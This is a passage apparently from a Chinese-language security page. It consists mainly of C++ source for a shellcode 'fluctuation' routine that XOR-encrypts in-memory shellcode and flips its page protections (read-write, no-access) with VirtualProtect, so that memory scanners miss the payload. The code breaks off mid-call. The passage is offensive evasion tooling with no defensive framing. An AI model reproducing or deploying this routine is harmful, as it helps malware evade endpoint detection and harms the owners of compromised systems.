   

```plain
加密和解密 shellcode：
```

```plain
void shellcodeEncryptDecrypt(LPVOID callerAddress)
{
    if ((g_fluctuate != NoFluctuation) && g_fluctuationData.shellcodeAddr != nullptr && g_fluctuationData.shellcodeSize > 0)
    {
        if (!isShellcodeThread(callerAddress))
            return;

        DWORD oldProt = 0;

        if (!g_fluctuationData.currentlyEncrypted
            || (g_fluctuationData.currentlyEncrypted && g_fluctuate == FluctuateToNA))
        {
            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
                PAGE_READWRITE,
                &g_fluctuationData.protect
            );

            log("[>] Flipped to RW.");
        }

        log((g_fluctuationData.currentlyEncrypted) ? "[<] Decoding..." : "[>] Encoding...");

        xor32(
            reinterpret_cast<uint8_t*>(g_fluctuationData.shellcodeAddr),
            g_fluctuationData.shellcodeSize,
            g_fluctuationData.encodeKey
        );

        if (!g_fluctuationData.currentlyEncrypted && g_fluctuate == FluctuateToNA)
        {
            //
            // Here we're utilising ORCA666's idea to mark the shellcode as PAGE_NOACCESS instead of PAGE_READWRITE
            // and our previously set up vectored exception handler should catch invalid memory access, flip back memory
            // protections and resume the execution.
            //
            // Be sure to check out ORCA666's original implementation here:
            //      https://github.com/ORCA666/0x41/blob/main/0x41/HookingLoader.hpp#L285
            //

            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
                PAGE_NOACCESS,
                &oldProt
            );

            log("[>] Flipped to No Access.\n");
        }
        else if (g_fluctuationData.currentlyEncrypted)
        {
            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
```